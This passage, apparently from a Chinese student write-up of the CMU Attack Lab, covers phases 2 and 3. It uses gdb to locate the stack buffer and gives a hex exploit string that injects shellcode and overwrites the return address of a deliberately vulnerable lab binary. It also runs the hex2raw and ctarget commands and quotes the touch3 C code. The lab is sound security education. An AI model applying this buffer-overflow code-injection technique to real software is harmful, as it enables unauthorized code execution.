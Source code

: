 复制

那么现在问题来了，我们要如何才能让机器开始执行这几行代码呢？简单，利用第一阶段的方式，跳转到缓冲区所在的位置即可，那么问题又来了，缓冲区的位置在哪里呢？这个就需要实际跑一次程序，用 gdb 查看了。

和上次的实验一样 `gdb ctarget` 开始调试，因为我想知道缓冲区从哪里开始，所以在 `getbuf` 中看看 `%rsp` 的值即可，我们在 `0x401828` 处设置断点，然后查看对应寄存器的值：

![img](https://wdxtub.com/images/14554204273695.jpg)

可以看到 `%rsp` 指向的位置是 `0x5560f2d8`，这样我们就可以得到需要输入的字符串了：

```
48 c7 c7 ee 
4f 37 45 68 
60 18 40 00
c3 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
d8 f2 60 55
```

复制

然后把字符串转换成字节码：`./hex2raw < p2.txt > p2r.txt`，执行命令 `./ctarget -i p2r.txt` 就可以看到完成第二阶段的提示了：

![img](https://wdxtub.com/images/14554226220350.jpg)

## 第三阶段

这一关和之前有点类似，只是需要传入一个字符串，所涉及的函数的 C 语言代码是：

```
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
